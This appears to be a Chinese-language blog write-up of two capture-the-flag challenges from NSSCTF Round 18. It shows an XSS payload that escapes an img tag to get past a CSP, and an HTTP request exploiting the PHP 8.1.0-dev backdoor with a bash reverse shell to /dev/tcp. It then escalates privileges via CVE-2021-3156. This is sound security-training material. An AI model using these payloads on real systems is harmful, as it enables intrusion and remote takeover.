 # NSSCTF Round 18 Basic

  

&lt;!--more--&gt;  
## 门酱想玩什么呢？  
右键源代码发现`nssctfroundSpring.php`  
```php  
&lt;?php    
highlight_file(__FILE__);    
//部分关键代码    
$contentLines = explode(&#34; &#34;, $comment[&#39;content&#39;]);    
if (preg_match(&#39;/^https?:\/\/\S&#43;$/&#39;, $contentLines[0])) {    
    if (preg_match(&#39;/^https?:\/\/[^\/]&#43;\/\S&#43;\.png$/&#39;, $contentLines[0], $matches) &amp;&amp; end($contentLines) === &#39;/png&#39;) {        $urlParts = parse_url($matches[0]);    
        if ($urlParts !== false) {    
            echo &#39;&lt;img class=&#34;content&#34; src=&#34;&#39; . $matches[0] . &#39;&#34;&gt;&#39;;            //.......        }        //......    }    //......    
}  
```  
很明显存在`xss`  
通过查看评论区得知需要在门酱处访问元梦之星官网的`url`，在发表评论处正是上面得到的代码，于是利用 xss 还需要绕过`CSP`  
`Content-Security-Policy: script-src &#39;self&#39; &#39;unsafe-inline&#39;;`  
利用`window.location`  
构造`poc`  
`https://&#34;&gt;&lt;script&gt;window.location=&#34;https://ymzx.qq.com/&#34;&lt;/script&gt;.png /png`  
得到``  
`http://node2.anna.nssctf.cn:28764/words/?title=MQ==&amp;content=aHR0cHMlM0ElMkYlMkYlMjIlM0UlM0NzY3JpcHQlM0V3aW5kb3cubG9jYXRpb24lM0QlMjJodHRwcyUzQSUyRiUyRnltengucXEuY29tJTJGJTIyJTNDJTJGc2NyaXB0JTNFLnBuZyUyMCUyRnBuZw==`  
在门酱处插入得到`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141654151.png)
## Becomeroot  
8.1.0-dev后门漏洞  
```http  
GET / HTTP/1.1  
Host: node1.anna.nssctf.cn:28073  
Accept-Encoding: gzip, deflate  
Accept: */*  
Accept-Language: en  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36  
User-Agentt: zerodiumsystem(&#34;bash -c &#39;bash -i &gt;&amp; /dev/tcp/vps/port 0&gt;&amp;1&#39;&#34;);  
Connection: close  
```  
利用工具进行扫描提权漏洞  
https://github.com/The-Z-Labs/linux-exploit-suggester  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141755588.png)
利用`CVE-2021-3156`提权  
https://github.com/Rvn0xsy/CVE-2021-3156-plus?tab=readme-ov-file  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202402141752513.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/nssctf-round-18-basic/  

